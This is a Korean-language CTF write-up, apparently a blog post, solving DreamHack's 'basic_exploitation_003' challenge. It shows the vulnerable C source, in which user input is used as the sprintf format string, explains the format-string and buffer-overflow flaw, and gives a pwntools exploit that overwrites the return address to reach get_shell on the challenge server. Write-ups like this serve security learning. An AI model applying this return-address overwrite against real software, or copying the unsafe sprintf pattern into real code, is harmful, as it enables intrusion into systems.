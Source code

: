 ```yaml
---
layout: post
title: "(DreamHack) Basic_exploitation_003"
date: 2021-03-05 05:24:00 -0400
categories: Security CTF
---
```


## 풀이

이번 문제는 FSB와 BOF가 모두 사용된 문제이다.

``` c
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
int main(int argc, char *argv[]) {
    char *heap_buf = (char *)malloc(0x80);
    char stack_buf[0x90] = {};
    initialize();
    read(0, heap_buf, 0x80);
    sprintf(stack_buf, heap_buf);
    printf("ECHO : %s\n", stack_buf);
    return 0;
}
```
#### FSB
sprintf는 입력값의 길이에 대한 검사가 없이 사용되고 있으므로 FSB에 의해 익스플로잇될 수 있다. (앞으로는 sprintf_s를 애용하자)
#### BOF
sprintf를 통해 heap_buf에서 stack_buf의 내용을 바꾸는데 이때 main의 ret 값을 변조시켜 BOF를 일으킬 수 있다.
stack_buf와 ret 사이에 0x98 (stack_buf, *heap_buf) + 0x4 (sfp)만큼의 공간이 존재한다.

``` python
from pwn import *

p = remote("host1.dreamhack.games", 24316)
elf = ELF("./basic_exploitation_003")

get_shell = elf.symbols['get_shell']

payload = "%156d"
payload += p32(get_shell)

p.send(payload)
p.interactive()
```

위 코드를 통해 쉘을 실행시킬 수 있다.
![image](https://user-images.githubusercontent.com/24788751/110102904-a93a7f80-7de8-11eb-9680-9517a32b104e.png)